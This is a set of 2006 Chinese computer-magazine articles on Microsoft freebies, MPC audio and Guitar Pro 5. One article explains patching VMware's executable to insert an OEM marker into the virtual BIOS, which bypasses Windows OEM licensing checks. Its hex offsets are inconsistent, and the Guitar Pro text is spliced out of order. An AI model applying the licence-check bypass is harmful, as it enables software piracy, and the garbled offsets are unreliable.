### 七、Microsoft Link-up: 来自微软的‘连连看’

可是炙手可热的休闲小游戏，它不需要你去购买点卡、无须注册、无须打怪即可体验游戏的快乐。现在，微软推出的Microsoft Link-up就是一个翻版的‘连连看’！

安装该游戏之前，请首先确认本机器中已经安装了DirectX9.0，否则无法继续。安装完毕后运行程序，首先在起始页中选择游戏的难度、画面背景、图片包，最后点击‘开始’按钮即可开始玩了（见图14）。



此程序的‘图片包’中包含了两种图片：动物和京剧脸谱，非常的漂亮！另外，当点击某个脸谱或动物时，右下角都会出现对该图片内容的介绍，游戏之余同样学到知识！另外，还可以通过左上方的导航栏来完成控制背景音乐、洗牌、提醒等操作，相信大家会很快上手（见图15）。



### 八、Microsoft Cartoon Maker ——头像也能DIY

经常泡论坛、写博客、网络聊天的朋友，为了彰显个性都会给自己找一个酷酷的头像图片。虽然可以从网上得到N多的头像素材，但总不如自己制作的更加精彩！你也能想制作卡通头像吗？来试试微软的Microsoft Cartoon Maker吧，它采用了先进的人脸识别技术，只需选择合适的照片，就能快速生成逼真的卡通形象。

第一步：安装后启动该程序，通过‘新建卡通’按钮导入一张照片，如图16所示。首先使用预览窗口下方的功能按钮将其调整好位置，并使用放大、缩小按钮使照片中人物的头像尽可能的大且完整显示，然后用鼠标指针拖动选择框上的多个锚点，圈定该人物的脸部。单击‘下一步’。

第二步：在‘请选择一个脸型风格’图案列表中点击一下喜欢的脸型，点击‘下一步’，该人物头像上将出现多个锚点，我们可以通过这些控制点来给此脸部‘整容’，点击‘预览’按钮即可看到转换到卡通图片时的脸部画面了。单击‘下一步’（见图17）。




第三步：现在可以给卡通头像面部添加一些点缀：当选中“头发”、“眼镜”、“胡子”、“表情”中任意一种时，右侧将出现该素材的多种类型，随意点击一种即可马上预览到效果，而且这些素材可以叠加使用。单击“下一步”。

第四步：在该界面中将设置卡通人物的身体以及动作。可先在左侧窗口中选择身体以及动作的类型，然后在右侧窗口勾选喜欢的造型即可。当然也可以选择全部造型，而且带有“胶片”图标的造型还是动态的！单击“下一步”（见图18）。



第五步：现在左侧窗口就是你选择的、要制作的卡通人物，而在右侧可根据需要将它们保存到文件，或者制作登录图片，或设置为桌面墙纸，甚至直接Email给好友来分享（见图19）。

如果选择将卡通人物保存到文件，接下来就可以让自己已在论坛、博客、QQ、MSN等地方的“形象”焕然一新了。



### 九、免费试用MSN游戏

前面我们介绍了微软版的“连连看”游戏，如果你已经玩腻了的话，不妨来试试“MSN游戏”。它们属于试玩版，只能体验部分功能，如果想购买可享受50%的特价。

下面我们来体验一款“Bejeweled”（又称宝石消除）游戏，它风靡于欧美地区，不过和我们的“连连看”其实差不多，玩家只要把画面中出现的宝石排成一横排或一直列有三个或三个以上时便可以消除。

该游戏提供多语言的版本，可惜不包含简体中文，因此在安装过程中最好选择“英文”。安装完毕后自动运行，在启动界面中点击“Play Demo Now”按钮才能开始游戏。当然，如果你购买了注册码，可以点击“Enter registration key”按钮输入注册码。

默认情况下，会以全屏幕的方式开始游戏。如果想使用窗口模式来玩游戏，可以在游戏主界面中点击“Options”按钮，在弹出窗口中取消选中“Fullscreen”选项即可。另外，还可以在该界面中对背景音乐进行调整，调整完毕后按下“Done”按钮立即生效（见图20）。



下面就可以开始游戏了：寻找一横排或一直列已经存在的两个同样形状或颜色的宝石，然后看看它的周围是否也存在同样的宝石？如果存在，用鼠标左键先选中相同的宝石，然后再点击一下想要置换的不相同宝石，此时就可以组成三个或三个以上的相同宝石列，接着会自动消失。当然，组成的相同宝石数越多，得分也越多，过关的速度也会越快。

不错吧？和连连看一样吸引人！另外，微软还提供了其他九个小游戏，如果你有兴趣可以试试哦！

以上我们只介绍了正版增值计划软件中几个比较实用、有趣的东东，其实该软件系列中还包含其他的几个小程序，比如Windows XP和Windows Media Player 10的视频教程、具有中国特色的主题、用于Media Center的电视助手和卡拉OK工具等，感兴趣的朋友可以下载了来试试。尽管这些“免费午餐”还不是很丰富，相信随着微软“提倡”正版工作的不断深入，会增加更多、更好的小工具。

## VMware中使用正版OEM Windows XP操作系统

文/TMG lj

现在很多用户在购机的时候选择品牌机，其主要原因是因为大多数品牌机都会赠送OEM版操作系统的安装光盘，为那些支持正版软件的用户带来了实惠。但是某些购买品牌机的朋友在使用VMware Workstation虚拟机的时候，发现自己的OEM版的Windows XP在虚拟机中无法安装。那么这个问题是什么原因造成的？要如何解决呢？下面我就为朋友们介绍一下出现这个问题的原因以及解决办法。

### 一、问题产生的原因

要分析这个问题产生的原因就要从Vmware Workstation说起，Vmware Workstation是由Vmware公司推出的虚拟机软件，用户可以使用该软件在一台计算机上同时安装多个操作系统，而且使用时无需重新启动就可以进行不同操作系统的切换；另外用户还可以使用该软件在一台计算机上架设一个虚拟环境的局域网，来进行各种网络试验。Vmware Workstation可以虚拟出的计算机环境与真实计算机极为相似，可以虚拟真实计算机内部的各种设备，如CPU、硬盘、内存、光驱以及声卡等。而且就连BIOS也可以在虚拟机中找到，但是，由于虚拟机中的BIOS是由软件虚拟出来的，因此与宿主计算机与真实的BIOS并不相同。也就是说宿主计算机中的BIOS内容和虚拟机中BIOS的内容不相同。我们知道，OEM版的Windows XP操作系统在安装过程中需要检查BIOS中的OEM特征码。而在Vmware Workstation的使用中即使宿主计算机的BIOS包含有OEM特征码，也不能在虚拟机中使用OEM操作系统。因为虚拟机的BIOS与宿主计算机的BIOS不同，因此不包含OEM特征码。这就是产生这一问题的原因了。

### 二、制定解决方案

既然明白了造成这一问题的原因，我们就可以制定相应的解决方案了，大体思路就是在虚拟机的BIOS中添加OEM特征码。首先，要确定虚拟机使用的BIOS的种类，然后找到并提取虚拟机中的BIOS文件，接着将OEM特征码添加到BIOS文件中，最后把修改后的BIOS文件“刷新”到虚拟机的BIOS文件。这样一来问题就可以解决了。

### 三、实战操作

解决问题的方案已经有了，那么下面我们就以在Vmware Workstation v5.5.1 build-19175创建的虚拟机上安装联想OEM版Windows XP系统为例，介绍一下修改虚拟机BIOS的方法。根据上面制定的方案，可以分为以下四个大步骤：

#### 1. 确定BIOS的种类

确定BIOS的种类之后，才可以开始对BIOS文件进行提取、修改和刷新。在虚拟机中也不例外，确定了虚拟机中使用的BIOS，才可以知道使用什么方法来提取BIOS文件，并且才能确定使用哪一种BIOS编辑工具修改BIOS文件。我们先运行Vmware Workstation，创建并运行一个虚拟机，在出现Vmware标识的开机画面时按F2键进入BIOS虚拟机的设置界面。我们会发现Vmware Workstation使用的是Phoenix BIOS。既然已经知道了虚拟机的BIOS种类，就可以进入下一步了。

#### 2. 提取BIOS文件

想要提取虚拟机中的BIOS文件就先要找到虚拟机中的BIOS文件，事实上虚拟机中的BIOS并不是一个单独的文件，而是在虚拟机的vmware-vmx.exe文件中，因此我们就要从虚拟机的vmware-vmx.exe文件中将其提取出来。我们已经知道虚拟机使用的是Phoenix BIOS那么我们就可以用UltraEdit 32打开vmware-vmx.exe文件通过查找Phoenix BIOS的结尾标识“EA 66 E7 00 F0 00 00”来提取BIOS文件。具体步骤如下：

-   STEP1: 下载并安装UltraEdit 32。下载地址为：“http://download.winzhang.com/SoftView/SoftView_22602.htm”。
-   STEP2: 运行UltraEdit 32，打开vmware-vmx.exe文件。vmware-vmx.exe文件在Vmware Workstation的安装目录中的bin文件夹中，如果Vmware Workstation是默认安装，则文件的路径为“C:\Program Files\VMware\VMware Workstation\bin\vmware-vmx.exe”。
-   STEP3: 查找Phoenix BIOS的结尾标识“EA 66 E7 00 F0 00 00 00”。在UltraEdit 32的“搜索”菜单中选择“查找”，在查找内容后面输入“EA 66 E7 00 F0 00 00 00”，然后单击“查找下一个”按钮（见图1）。这时可以看到UltraEdit 32的主窗口中出现了选中状态的“EA 66 E7 00 F0 00 00”所在的那一行“0049880h”所以BIOS的结尾位置是“0049888h”（见图2）。不同版本的VMware Workstation中BIOS在vmware-vmx.exe 文件中的位置略有不同，所以不能省略查找结尾标识 “EA 66 E7 00 F0 00 00 00” 的步骤。
-   STEP4: 选取 BIOS 文件的范围。BIOS 文件的大小为 512K，结尾位置是 “0049888fh” 则开头位置应该是 “418890h”。先将光标的位置移动到 “00498880h” 的末尾 “00” 处，然后拖动界面右侧滑块找到 “418890h” 的位置，按住 Shift 键单击 “418890h” 这一行的第一个 “FF”，这样就将 418890h 至 0049888fh 这个范围选中了 (见图3)。这也就是 BIOS 文件的范围。
-   STEP5: 导出 BIOS 文件。在 “文件” 菜单中选择 “选区保存为” 命令，在弹出的 “另存为” 对话框中的 “文件名” 后面输入 vmware-vmx.rom，单击 “保存” 按钮 (见图 4)。“vmware-vmx.rom” 文件就是我们从虚拟机中提取出来的 BIOS 文件。




#### 3. 修改 BIOS 文件

由于虚拟机使用的是 Phoenix BIOS，因此，可以使用 BIOS 编辑工具 Phoenix BIOS Editor 对 BIOS 文件进行修改。

具体步骤如下：

-   STEP1: 下载并安装 Phoenix BIOS Editor。下载地址为 “http://www.fj002.com/Software.Asp?id=2363”。
-   STEP2: 运行 Phoenix BIOS Editor，并打开刚刚提取的 BIOS 文件 “vmware-vmx.rom”。
-   STEP3: 在 BIOS 文件中添加 OEM 特征码。使用 Phoenix BIOS Editor 打开 “vmware-vmx.rom” 文件后，在 Phoenix BIOS Editor 主界面的工作区中会出现很多窗口。选择 “DMI string” 窗口，单击 Motherboard Version 后面的 “None”，在弹出的对话框中，将其修改为 LEGEND Dragon，注意保留单引号，而且填入的字符串要区分大小写 (见图 5 )。然后在 “文件” 菜单中选择 “Build BIOS...” 命令，然后根据提示保存并退出，这样我们就已经改好了 BIOS 文件。



#### 4. “刷新” BIOS 文件

修改好 BIOS 以后，需要再一次使用 UltraEdit 32 将 BIOS 文件的内容重新覆盖到 “vmware-vmx.exe” 文件中。具体步骤如下：

-   STEP1: 备份 “vmware-vmx.exe” 文件，防止误操作带来的麻烦。
-   STEP2: 运行 UltraEdit 32 并打开 “vmware-vmx.exe” 和修改后的 “vmware-vmx.rom” 两个文件。
-   STEP3: 在 “vmware-vmx.exe” 文件中选中 418890h 至 0049888fh 这个范围。
-   STEP4: 覆盖原有 BIOS 文件的内容。在 UltraEdit 32 中切换到 “vmware-vmx.rom”，选择 “编辑” 菜单中的 “全选”，再切换回 “vmware-vmx.exe” 文件，选择 “编辑” 菜单中的 “粘贴”。
-   STEP5: 保存修改后的 “vmware-vmx.exe”，并退出。至此，整个修改虚拟机 BIOS 的操作就完成了。现在就可以在虚拟机上安装正版的联想 OEM 版的 Windows XP 操作系统了。

#### 5. 其他品牌的 OEM 特征码及修改方法

通过文章上面的修改虚拟机 BIOS 安装联想 OEM 版操作系统的方法，我们可以举一反三，用于其他品牌的 OEM 操作系统。关键在于找到对应品牌的 OEM 特征码，并将其正确地添加到虚拟机 BIOS 的 DMI 信息中。

CfanBoundEdition·2006## 新一代音频格式MPC
## 让音乐更加悦耳动听

文/彭文波

现在，网上最流行的音频格式应该是MP3了，此外，我们还见过WMA、WAV、RM、MIDI等格式。不过，MP3最初开发的主要目的是在128Kbps下以较小的文件达到接近CD的音质，即以牺牲了部分音质为代价的，与苛刻音乐迷的要求相比，还存在不少差距。那么，是否还有更好的压缩格式呢？答案是肯定的，德国人Andree Buschmann开发的高品质音频格式MPC，就可以满足音乐迷的这一要求。

### 一、音频基础知识

为了深入而全面地考察MPC的特点，我们首先来了解一下音频格式的几个基本概念。

#### 1. 关于音频格式的几个基本概念

第一个概念是位速。位速是每秒钟声音流的字节数，也叫码率、码速、线速等。单位是Kbps或Kb/s，注意这里使用的“b”是bit。通常人们“位速”又叫音效水平，一般位速高代表音效水平较好。

第二个概念是MP2、MP3。MPEG-1音频标准定义了三种不同的压缩层次，即MPEG Audio Layer-1、MPEG Audio Layer-2、MPEG Audio Layer-3，分别简称MP1、MP2和MP3。层次越高压缩性能越好，但是编码的开销和译码的复杂度也随之增加。MP2均衡了性能和复杂度，它能在192～256Kbps的速率下实现CD级的音质。而MP3利用MPEG Audio Layer 3的技术，将声音用1:10甚至1:12的压缩率，变成容量较小的文件，接近CD音质，是现在电脑收藏和播放采用最多的一种格式。

第三个概念是LAME。是目前最好的MP3编码引擎之一，通过LAME编码出来的MP3音色纯厚、空间宽广、低音清晰、细节表现良好，它独创的心理音响模型技术保证了CD音频还原的真实性，配合VBR和ABR参数，音质几乎可以媲美CD音频，但文件体积却非常小。对于一个免费引擎，LAME的优势不言而喻。

第四个概念是子带编码（Sub band Coding）。子带编码是音频压缩方法的一种（其他还有时域编码、变换编码等），它将输入的音频信号的频带分成若干个连续的频段，每个频段称为子带，然后针对各个子带中的音频信号采用不同的编码方案以降低码率。子带编码的算法复杂度较低，这使得采用子带编码的音频格式可以有很快的压缩速度。因此，这是一种优秀的编码方式。

第五个概念削波（Clipping）。削波是一种形式的波形失真。当源信号的波形振幅超过程序所考虑的采样峰值时，超过的部分会被削除，这就被称为削波。

#### 2. MPC格式与其他格式

了解了上面的几个基本概念，我们就可以对几个音频格式进行比较了。

第一种，MP3格式
采用这个格式的歌曲适合宽带网速的在线播放，其最高位速是320Kbps。它以牺牲部分音质的方式来换取较小的文件体积。一般来说，MP3通常采用128Kbps高质模式，播放时间大约是：每MB容量播放一分钟，总体音质较好，但低音损失稍大。

第二种，WMA格式
比较适合在线播放、收听，这是微软公司提出的媒体格式之一，它通常采用64Kbps的位速，压缩比可达1:24，压缩速度比MP3提高一倍。相对而言，WMA速率模式比较宽泛，音质较好；同等容量、同等音质（64Kbps的位速）的播放时间大约是MP3的2倍，WMA格式最高位速可达192Kbps。

第三种，RM系列格式
采用了“音频流”技术，是目前在线收听网络音乐最好的一种格式。相对MP3来说，RM格式的歌曲压缩比更大一些，最高可达1:200。总的来说，Real格式的歌曲比较适合在线播放、收听。

第四种，WAV格式
这是Windows用来储存数码声音的格式，是一种没有经过压缩处理的声音格式。这种格式可以把模拟音频波形转换为数字信号储存，根据其格式化性质，使音质产生一定的变化。作为最基本的音频文件格式，WAV几乎可以转换成所有类型的数字音频格式。

第五种，MIDI格式
这是Musical Instrument Data Interface的简称，最初应用在电子乐器上用来记录乐手的弹奏，以便以后重播。它采用数字方式对乐器所奏出来的声音进行记录（每个音符记录为一个数字），然后，播放时再对这些记录通过FM或波表合成。总的来说，MIDI格式的音乐采取特殊采样和编码方式，档案文件很小，在网络上多作背景音乐使用，比如很多游戏软件就采用了这个音乐格式。

第六种，MPC格式
现在，轮到MPC格式登场了。无论是频谱分析，还是对比试听，160Kbps码率以上的MPC表现都要绝对好过MP3，也胜过其他的有损压缩格式，而且它是完全免费的。

#### 3. MPC格式特点

下面，我们来看看MPC格式的一些优点及相关使用技巧。

首先，MPC编码方案是在MP2的基础上改进而来，并采用了子带编码技术。但相比MP2，它所采用的心理声学模型要优秀得多，并加入了像ANS（Adaptive Noise Shaping）、CVD(Clear Voice Detection)等技术，甚至改变了压缩时所用的Huffman（哈夫曼）编码，以得到更大的压缩率。

其次，MPC采用的是可变码率进行编码。毫无疑问，可变码率的编码效率要高于固定码率，因为前者可以合理地分配数据量，在信号复杂时提高比特率，能得到满意的效果又能确保不错的压缩率。为了保证高音质，MPC的瞬间最大码率甚至高达1.32Mbps，这已经快接近CD的1.41Mbps了！

再次，从使用上看，MPC格式音质好而且编码速度快，尤其在较高比特率下表现优秀。MPC格式最初就是以音质为目的开发的，对有损压缩来说，没有任何一种格式能在128Kbps左右提供完美的音质。在较高比特率下（250Kbps左右），MPC表现非常出众，无论从频率保留还是细节保留，以及信号强度失真来说，都具有很大的优势。如果只是在自己的电脑上制作、播放音乐，完全可以弃MP3而转投MPC，因为后者在编码速度和音质上的表现可以说是绝对优秀。

另外，MPC格式压缩效果好，压缩效果相当令人满意。在Lame编码中，“--alt-preset insane”代表最高压缩质量，但质量却不及quality 9这个级别的MPC，而quality 10这个级别的MPC几乎就是原版CD拷贝！在一般的电脑音频设备上，quality 5压制的MPC已经能让人比较满意了；如果声卡和音箱比较优秀，可以采用quality 7，这个参数的压缩率和编码效果都很不错；当然，对于音乐发烧友们来说，如果有更高的级别要求，都可以通过MPC格式来实现。

### 二、MPC格式转换技巧

#### 1. MPC编码

通过Mppenc这个软件进行压缩后，可以得到MPC格式的音乐文件，播放效果十分优秀。Mppenc的下载地址为：http://www.musepack.net。Mppenc提供了5组预置参数，由低到高分别为：-thumb、-radio、-standard、-extreme、-insane。我们推荐使用-insane参数，码率为200Kbps左右，可以做到非常好的音质，如果回放设备质量一般，很难听出与源WAV的区别。

默认情况下，mppenc.exe是命令行方式，但也可以使用图形界面方式。抓取CD压制MPC，可以使用EAC（Exact Audio Copy）外挂MPC编码器，软件下载地址为：http://www2.skycn.com/soft/7885.html。如果直接从WAV文件制作MPC，可选用Musedrop工具，软件下载地址为：http://www2.skycn.com/soft/20891.html。

#### 2. 将MPC格式转换成MP3

比较常见的是，编码器把WAV格式转换为MPC格式，而解码器把MPC等格式转换为WAV格式。由于MPC的高音质和MP3的广泛性，将其转换成MP3是可行的，尤其是高码率的MPC，如果是quality 6级以上参数压缩的MPC文件，转换成的MP3效果还不错，无论从频谱分析还是实际试听来看，差距都不大。要想方便地转换，就要使用批量转换器MpxChange，软件下载地址为http://home.tiscali.dk/~isl20023/MPxchange.exe，它自带了MPC解码器和Lame编码器，运行后只需将要转换的MPC文件拖到下面的列表框。如图1所示。

在“Encoder Options”框单击鼠标右键，将Lame编码参数更改为“--alt-preset standard”，这样能达到比较理想的效果。选中文件，右边的窗口显示了MPC的编码信息，按下“Transcode”按钮，就可以调用mppdec.exe进行转换了，转换好的MP3文件与Mpc文件在同一目录下。

### 三、MPC播放软件

能直接播放MPC格式的软件不是很多，比较常见的有FooBar2000和JetAudio 5。此外还有一些软件可以通过外加解码插件支持MPC，像Winamp和QCD Player。

#### 1. FooBar 2000

FooBar2000是一个Windows平台下的高级音频播放器，具有重放增益支持、低内存占用等基本特色，以及内置支持一些流行的音频格式，软件汉化增强版下载地址为：http://www.skycn.com/soft/11066.html。软件安装后，打开一个后缀为“.mpc”的文件。为了达到更好的播放效果，对它做一些合理的设置是必需的。打开FooBar2000菜单下的“参数设置”选项，即可看到参数设置界面，如图2是对“重放”进行的参数设置，可以参考RMAA数据库，如果电脑不够强劲，一般选用44100Hz。

#### 2. 在Winamp上播放MPC

只要下载安装Winamp的MPC插件，就能用它来播放MPC了。以最新的Winamp5为例，它支持Winamp2的插件，下载地址为：http://www.saunalahti.fi/~cse/mpc/bin/in_mpc.exe 或 http://www.saunalahti.fi/~cse/mpc/bin/winamp-release-en.zip。将文件直接安装或者复制到Winamp/Plugins目录后，Winamp5就拥有了MPC的解码能力。为了得到更好的播放效果，我们还得对该插件进行一些设置。安装好插件后运行Winamp，按Ctrl + P进入“参数设置”。单击左边窗口“插件”下的“输入”选项，在右边可以看到“mpc Musepack plugin 0.98”项，双击即可进入相关的插件设置。如图3所示。

其中，EQ（均衡器）设置中，“Equalizing by”（采用哪个均衡器）可以选中“MusePack”，因为Winamp内置的EQ高频部分丢失严重（尤其是16kHz以上的高音）；“Dynamic range”（动态范围）决定了EQ所能调整的动态范围，选择±6db比较合适；ReplayGain（重放增益）设置中，“Mode”下拉框中选择“ReplayGain album based”，这样插件就会按Audiophile的值来调整音量，不同CD间的音量差异得以解决；“HeadRoom”（头顶空间）用来避免声音的削波和过饱和，其数值表示了重放的最大音量可以比标准的83db大多少，在家庭听音环境下建议设为K-14；设置Dither（抖动）时，选中“Dither output”以提升音质。类似方法可以在其他的软件，如超级解霸等软件中实现。其他播放软件的参考地址为：

- MediaJukebox via plugin (http://www.musicex.com/mediajukebox/)
- DeliPlayer via plugin (http://www.deliplayer.com)

MPC通常采用160Kbps的位速模式，这对专业人士和发烧友来说绝对是一个福音；在网络上MPC目前已有一些高品质的作品，而且发展较快。尽管MPC有音质上的优势，但作为个人研发的音频格式，还比较缺乏软硬件支持和市场推广，知名度较低。所以，现在使用MPC的主要是一些对音质要求较高的人。希望经过本文的介绍，能有更多的人加入MPC的行列，甚至完全可以弃MP3而转投MPC，尤其是那些追求音质的朋友，因为后者在编码速度和音质上的表现绝对会让你找到悦耳动听的新感觉！

■

## E 时代的 ‘吉他大师’ —— Guitar Pro 5

文 / Rocky

### 一、Guitar Pro 简介

Guitar Pro 是当前网络上非常火爆的一款电脑音乐软件，各大音乐网站所提供的吉他谱、乐队总谱绝大多数都是 Guitar pro 专用的 GTP 格式。它是一套多音轨（最多有 8 个）的乐谱编辑软件，是广大吉他、贝斯等乐器爱好者学习、排练的良师益友。除了能够打开和编写乐谱之外，它还提供了和弦图表、音序器、调音器、吉他指板、钢琴键盘、音色库等多种实用功能及附件。GTP 格式编写的乐谱，不仅能够观看和打印，而且还可以导出为 MIDI 音乐文件，更为突出的是，GTP 乐谱是有声乐谱，能够以标准音高、节奏和相应乐器的音色演奏当前乐谱，这无疑给广大爱好者的学习和创作提供了极大的方便。因此，不论是初学者或者是专业的吉他手、作曲家，Guitar Pro 都提供了一套完整的工具，让他们能够提高他们的演奏技巧和编曲、作曲水平。有了它，种种学琴中的烦恼一扫而光，可以让你尽享音乐的乐趣！

### 二、Guitar Pro 的发展及 Guitar Pro 5.0 的新增功能

Guitar Pro 是由 AROBAS 公司开发的一款功能十分强大的共享软件，发展至今已经成为了一款适合多种乐器的综合电脑音乐软件。Guitar Pro 5.0 是其最新版本（见图1），在这之前，Guitar Pro 3.0、Guitar Pro 4.0、Guitar Pro 4.2 都给用户留下了深刻的印象。

- 4 种显示模式：页面、文稿、纵向显示和横向显示。
- 全新用户界面，支持换肤。
- 完全重新设计的乐谱显示方式，更加接近于印刷乐谱。
- 自动调整音符的纵向位置，避免音符间的拥挤和空白。
- 全新的页面设置窗口。
- 全新 RSE（拟真音效引擎），并且包括真实的打击乐器音效。
- 更加完善的滚动显示以及文档自由缩放（30～20%）。
- 可对每一个音轨进行独立的调整，例如可选择显示六线谱、五线谱或是两者都显示。可调整音轨的位置。
- 可在编辑和播放时进行多块选择，可合并播放多块选定的内容，支持循环播放。
- 支持人造泛音；支持哇音效果。
- 支持 MusicXML 格式歌谱导入／导出，支持 PowerTab TablEdit 导入，支持 PDF 导出。
- 改进的标准音符系统；改进的渐进结束。
- 改进的 ASCII 歌谱导入／导出；改进的音频导出功能。

### 三、Guitar Pro 5.0 的下载与安装

Guitar Pro 5.0 是时下网络上十分火爆的一款共享软件，有很多网站都可以下载，大家可到 “http://www.rockbj.com/Soft/ShowSoft.asp?SoftID=566” 下载一个 Guitar Pro 5.0 多国语言版的安装程序。完整版的安装程序大约有 160M 大小。

软件的安装过程十分简单迅速，安装过程中系统会让用户选择安装方式，有完全安装、压缩安装和自定义三种，前两种方式的区别在于是否安装自带的 340M 大小的音色库，这里强烈建议大家选择完全安装，即 Full installation，这样在程序中就可以听到非常逼真的乐器音色。

安装完成后，系统会要求重新启动系统，重启后首次运行 Guitar Pro 5.0，会提示用户选择界面语言。虽然 Guitar Pro 5.0 内置了 20 多种语言，但没有中文，不要紧，我们稍后可以自行汉化，这里选择我们相对比较熟悉的 English。确认后，即可打开 Guitar Pro 5.0 的主界面。如果有的朋友英文水平实在有限的话，我们可以到以下地址 http://www.onlinedown.net/soft/45429.htm 下载 Guitar Pro 5.0 汉化补丁。汉化过程也非常简单，只须将解压后的补丁文件复制到 Guitar Pro 5.0 安装位置的 GPL 文件夹中即可。回到 Guitar Pro 5.0 主界面，选择 “Option→Language→Chinese（Simplified）”命令，主界面即可转为中文（见图2）。

这时，用过老版本的用户将会发现，乐谱显示的效果有了很明显的改进，就像是印在纸上的一样。在这个示范谱例中，我们可以看到，界面顶端是乐曲名称，紧跟着的## 四、使用Guitar Pro 5.0练习演奏已有曲谱

随着因特网的普及，很多吉他爱好者都到网上去找需要的乐谱，而网上的谱子大部分都是GTP格式的，下面我们就来讲解如何使用Guitar Pro 5.0练习演奏网上下载的乐谱。

第一步：单击“文件→打开”命令，在弹出的“打开”对话框中找到要练习的曲谱，单击“打开”按钮，即可打开相应的曲谱。

第二步：打开曲谱后，我们可以看到，在界面正中的文档显示区中以五线谱与六线谱结合的方式显示了乐谱正文。需要注意的是GTP格式的吉他谱大部分为一首歌曲的总谱，就是一首歌曲所使用的全部乐器都以不同的音轨，在不同的页面中将各种乐器的曲谱分别显示，这主要是靠Guitar Pro的音轨设置区实现的，见图3。



第三步：在音轨设置区我们可以看到组成一首歌曲的全部音轨，本例包括“主音吉他”、“节奏吉他”、“贝司”、“主唱”、“鼓”、“吉他3”六个音轨，在音轨名称之后还有播放控制按钮、端口、声像、乐器名称或音色、音量、声音等多种设置选项。在这些选项后面还以不同颜色的图例显示了各音轨加入和终止的时间。单击相应的音轨名称即可进入相应的曲谱页面。





在“弹奏”工具栏中，除播放按钮外，还有其他一些控制按钮：RSE按钮，按下或弹起该按钮可选择是否使用RSE（真实声音引擎）。第一小节和最末小节按钮。单击相应的按钮可跳转到第一或最末小节。循序倒退和循序前进按钮。在没有播放乐谱时，单击这两个按钮，可向前或向后演奏单个音符。当按下播放键后，它们将变为“前一小节”和“后一小节”按钮，单击，可将播放头跳转到前一小节或后一小节。节拍器按钮。按下前面的按钮表示正常使用节拍器，按下后面的按钮表示使用倒数节拍器。拍速按钮。单击次按钮可调整乐谱的拍速。拍速系数设置按钮。单击其后的下拉按钮可以设置一个拍速系数，使乐谱按拍速的相应倍数演奏。

另外，在曲谱播放过程中，还可以通过单击音轨设置区音轨名称后的S和M按钮控制音轨的播放。S表示单独演奏当前音轨，M表示将当前音轨静音。如果不是乐队成员，大部分爱好者学琴都是为了唱歌伴奏，如果是这样，一般情况下光练习节奏吉他就行了，那么在听谱时就可以将节奏吉他音轨的S按钮按下。

提示：RSE（Realistic Sound Engine，拟真音效引擎）是一个内建的音效引擎，它可以让Guitar Pro使用高采样率的真实乐器音效来“演奏”乐谱，而不是简单地通过MIDI端口播放。RSE技术参数主要包括：9种音色（包括2种尼龙弦吉他，2种钢丝弦吉他，2种电声吉他，1种爵士吉他，1种贝司，1套打击乐器）；CD般音质的乐器采样（16位44.1kHz）；自动重音系统以及人性化的演奏；效果器、踏板效果模拟，特别是哇音效果；真实的手掌止音、闷音、泛音、勾/击弦演奏效果。



# 应用 · 软件

《电脑爱好者》合订本·附录分册

我们可以十分清楚地看到当前音在吉他上的品格和在钢琴键盘上的键位。该功能无疑会使初学者的练习更加迅速便捷。

## 五、使用 Guitar Pro 5.0 编写乐谱

在能够利用 Guitar Pro 5.0 学琴之后，我们再来学习在 Guitar Pro 5.0 中制作曲谱。在 Guitar Pro 5.0 中制作曲谱主要有三种方式：导入 MIDI 音乐自动生成、导入其他格式的乐谱和自己动手编辑乐谱。这里主要介绍第三种方式。

第六步：使用和弦总表。在乐谱显示区下方，音轨设置区上方的“标记”工具栏中单击“和弦”按钮，即可打开“和弦”窗口，见图7。在其中列出了所有可能用到的吉他和弦及各和弦的全部指法，例如，C 和弦的主要指法之一，见图8。

对于吉他初学者来说，最头痛的事情莫过于记住许许多多常用和弦的指法，经常是记住那个又忘了这个，经常得放下手里的琴去翻书本，导致练习不连贯，从而影响效果。而 Guitar Pro 5.0 则彻底解决了用户的烦恼，打开“和弦”窗口，在左上角选择所要查的和弦名称及类型，在下面的列表框中将会列出该和弦各指位的所有可能的指法图例，单击相应的图例，窗口中上方的列表框中将会放大显示该图例。

以上是 Guitar Pro 5.0 最基本的功能及使用方法，掌握了这些，对初学者学习来说已经够用了。

#### 1. 创建乐谱文件

选择“文件→新建”命令或者单击工具栏中的“新建”按钮，即可新建一个乐谱文件，并同时打开“谱表信息”对话框，见图9。

#### 2. 设置谱表信息

在“谱表信息”对话框可以输入一些有关乐谱的基本信息：如“主题”、“副题”、“艺人”、“专辑”、“版权”等以及其他标注信息等。在“歌词”选项卡中可以填写歌词；在“内定信息”选项卡中填写的内容将会作为默认信息，在下次创建新文件的时候自动复制到“谱表信息”选项卡的相关项目中。设置完成后，单击“确定”按钮。在确定了谱表信息后，还可以通过选择“文件→谱表信息”命令，或者使用 F5 快捷键再次打开“谱表信息”对话框进行修改。

#### 3. 设置拍速

设置完谱表信息后，接下来需要设置拍速。默认拍速为 120，如果需要设置不同的拍速，可以单击工具栏中的“拍速”按钮，打开“拍速”对话框，在其中设置需要的拍速即可，见图10。也可在播放乐谱的时候，再行设置。

#### 4. 音调标号设置

点击工具栏上的音调标号设置按钮，或者选择“小节→音调标号”命令，打开“音调标号”对话框（见图11），在这里可以设置调号和大小调式，默认为 C 大调。不过该功能只针对五线谱。点击工具栏上拍号按钮，或者选择“小节→拍号”命令可以打开“拍号”对话框（见图12），这里设置乐曲的拍号。默认为 4/4 拍。

设置完谱表信息、调号、拍号、拍速之后，就开始进入到乐谱编辑的正文部分了。


#### 5. 输入音符

Guitar Pro 5.0中，处在当前编辑状态的音符由黄色方框包围，在乐谱上点击鼠标只能移动编辑音符的位置，而不会增加任何音符，这样可以有效避免误操作。在Guitar Pro 5.0中输入音符主要有以下四种方法：

- **(1) 键盘输入法**
使用右侧小键盘以及方向键即可完成全部音符的输入，方法是单击鼠标将音符定位到小节中，然后按下小键盘上的数字输入音符（六线谱中的数字代表品格）。输入音符后，按下小键盘上的“+”和“－”号可以改变音符的时值；按向右方向键可以将输入框移至下一拍；按下上下方向键可以使音符输入框在同一拍的上下谱线上移动。另外，按下Insert键可以在当前位置插入音符，按下Delete键可以删除当前音符。当遇到重复的小节时，还可以通过“复制”和“粘贴”功能拷贝音符。如图13所示为输入的音符。


- **(2) 利用虚拟吉他指板输入音符**
可能有的朋友更喜欢直观的音符输入方式，那么我们可以通过Guitar Pro 5.0自带的吉他指板和钢琴键盘输入，具体步骤是单击工具栏中的吉他指板按钮，打开吉他指板示意图。在吉他指板上用鼠标点击相应的品格便会在六线谱上显示对应的音符。
另外，通过吉他指板示意图上方的控制选项还可以选择音符的时值、吉他的种类，以及切换左右手习惯、显示和声位置等功能。如图14所示。

